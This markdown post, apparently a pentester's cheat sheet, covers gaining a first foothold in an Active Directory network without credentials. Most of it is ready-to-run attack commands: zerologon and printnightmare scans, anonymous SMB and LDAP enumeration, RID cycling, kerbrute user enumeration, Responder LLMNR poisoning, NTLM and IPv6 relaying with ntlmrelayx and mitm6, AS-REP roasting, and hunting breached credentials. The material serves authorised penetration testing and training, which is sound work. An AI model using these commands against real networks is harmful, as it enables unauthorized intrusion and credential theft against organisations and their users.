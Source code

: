 ```yaml
---
title: "Active Directory Hacking: Enumeration without credentials"
description: "Hack Active Directory with 0 creds!"
pubDate: 2024-11-21
tags: ["active-directory", "network-pentesting", "enumeration"]
---
```


# Introduction

most of the time when you're hacking an AD environment, you are just with your kali, no user no password. Here is what to do to get your first user!

# Find Domain Controllers

```shell
nslookup domain.com
nslookup -type=srv _ldap._tcp.dc._msdcs.<domain>.com
nltest /dclist:domain.com
Get-ADDomainController -filter * | Select-Object name
gpresult /r
$Env:LOGONSERVER 
echo %LOGONSERVER%
```

# Scanning For Known Vulnerabilites

```shell
nxc smb 10.10.10.123 -u '' -p '' -M zerologon -M printnightmare -M smbghost

nxc smb 10.10.10.123 -u '' -p '' -M coerce_plus
```
Check out what other modules are available via `nxc <protocol> -L`


# SMB Anonymous Access
shares, users, password policies and groups enumeration.

```shell
nxc smb 10.10.10.123

nxc smb 10.10.10.123 -u '' -p ''
nxc smb 10.10.10.123 -u '' -p '' --shares
nxc smb 10.10.10.123 -u '' -p '' --pass-pol
nxc smb 10.10.10.123 -u '' -p '' --users
nxc smb 10.10.10.123 -u '' -p '' --groups

nxc smb 10.10.10.123 -u 'a' -p '' 
nxc smb 10.10.10.123 -u 'a' -p '' --shares
```

```shell
# Maps the network of live hosts and saves a list of only the hosts that don't require SMB signing. List format is one IP per line

nxc smb 10.10.10.0/24 --gen-relay-list relay_list.txt
```


```shell
enum4linux-ng -A 10.10.10.123

enum4linux-ng -A 10.10.10.123 -u 'guest' -p ''
```

```shell
smbmap -u "" -p "" -P 445 -H 10.10.10.123

smbmap -u "guest" -p "" -P 445 -H 10.10.10.123
``

```shell
smbclient -N -U "" -L \\10.10.10.123

rpcclient -N -U "" -L \\10.10.10.123
```


```shell
enum4linux-ng -U 10.10.10.123 | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"
```


## Changing expired password via smbpasswd

-> Identify

```shell
nxc smb $IP -u users.txt -p pass.txt  

\\ STATUS_PASSWORD_MUST_CHANGE
```

-> Changing expired password

```shell
smbpasswd -r <ip> -U <user>
```

## SMB Relay Attack (SMB signing is disabled)

```shell
# check if host doesn't require SMB signing using nmap

nmap --script smb-security-mode.nse,smb2-security-mode.nse -p445 127.0.0.1
```

Off SMB and HTTP in `/etc/responder/Responder.conf` then:

```shell
sudo responder -I tun0 -dwP
```
then:

```shell
sudo impacket-ntlmrelayx -tf targets.txt -smb2support

sudo impacket-ntlmrelayx -tf targets.txt -smb2support -i # for interactive mode
```
then:

```shell
nc 127.0.0.1 <port specified>
```


# LDAP Anonymous Access
users, computers and enumeration on any object.

```shell
nxc ldap 10.10.10.123 -u "" -p "" --users
```

```shell
ldapsearch -LLL -x -H ldap://test.local -b '' -s base '(objectclass=\*)'

ldapsearch -H ldaps://test.local/ -x -s base -b '' "(objectClass=*)" "*" +
```

```shell
ldapsearch -h 10.10.10.123 -x -b "DC=$DOMAIN,DC=LOCAL" -s sub "(&(objectclass=user))" | grep sAMAccountName: | cut -f2 -d " "

windapsearch.py --dc-ip 10.10.10.123 -u "" -U
```

```shell
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
```

```shell
nxc ldap 10.10.10.123 -u "" -p "" --query "(sAMAccountName=Administrator)" ""
nxc ldap 10.10.10.123 -u "" -p "" --query "(sAMAccountName=Administrator)" "sAMAccountName objectClass pwdLastSet"
```

```shell
nxc ldap 10.10.10.123 -u user.txt -p '' --asreproast output.txt
```


```shell
nmap -n -sV --script "ldap* and not brute" -p 389 10.10.10.123
```



# RID cycling
Enumerate users from the Domain Controllers.


```shell
impacket-lookupsid vuln.org/guest@10.10.10.123

impacket-lookupsid anonymous@10.10.10.123
```

```shell
kerbrute userenum -d test.local usernames.txt

nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='DOMAIN'" <IP>
nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm='<domain>',userdb=/root/Desktop/usernames.txt <IP>
```

```shell
# https://github.com/trustedsec/ridenum.git
# Rid Enum is a RID cycling attack that attempts to enumerate user accounts through
# null sessions and the SID to RID enum. If you specify a password file, it will
# automatically attempt to brute force the user accounts when its finished enumerating.

./ridenum.py <server_ip> <start_rid> <end_rid> <optional_username> <optional_password> <optional_password_file> <optional_username_filename>
```


```shell
bloodhound-python -d test.local -v --zip -c All -dc test.local -ns 10.10.10.1
```


# Username Harvesting

We can use a tool such as linkedin2username to scrape data from a company s LinkedIn page and create various mashups of usernames (flast, first.last, f.last, etc.) that can be added to our list of potential password spraying targets. and https://github.com/laramies/theHarvester


# Credential Hunting

Dehashed is an excellent tool for hunting for cleartext credentials and password hashes in breach data. We can search either on the site or using a script that performs queries via the API. Typically we will find many old passwords for users that do not work on externally-facing portals that use AD auth (or internal), but we may get lucky! This is another tool that can be useful for creating a user list for external or internal password spraying.

```shell
sudo python3 dehashed.py -q $DOMAIN.local -p
```

# LLMNR Poisioning

```shell
sudo responder -I eth0 -dwvP

# Technique to capture NTLMv1 challenges/responses for easier cracking:

sudo responder -I eth0 --lm --disable-ess
```


# IPV6 Relay Attack

```shell
sudo mitm6 -d <domain name>

ntlmrelayx.py -6 -t ldap://<domain controller IP> -wh fakewpad.marvel.local -l lootme
```

# AS-REP Roasting

An attacker can use a **man-in-the-middle** position to capture AS-REP packets as they traverse the network **without relying on Kerberos pre-authentication being disabled.** It therefore works for all users on the VLAN. [ASRepCatcher](https://github.com/Yaxxine7/ASRepCatcher) allows us to do so. Moreover, the tool forces client workstations to use RC4 by altering the Kerberos negotiation.

```shell
# Actively acting as a proxy between the clients and the DC, forcing RC4 downgrade if supported
ASRepCatcher relay -dc $DC_IP

# Disabling ARP spoofing, the mitm position must be obtained differently
ASRepCatcher relay -dc $DC_IP --disable-spoofing

# Passive listening of AS-REP packets, no packet alteration
ASRepCatcher listen
```

Impacket has a tool called "GetNPUsers.py" that will allow us to query ASReproastable accounts from the Key Distribution Center (KDC). The only thing that's necessary to query accounts is a valid set of usernames which was enumerated via Kerbrute.

```bash
impacket-GetNPUsers -no-pass -usersfile userlist.txt domain.com/
```
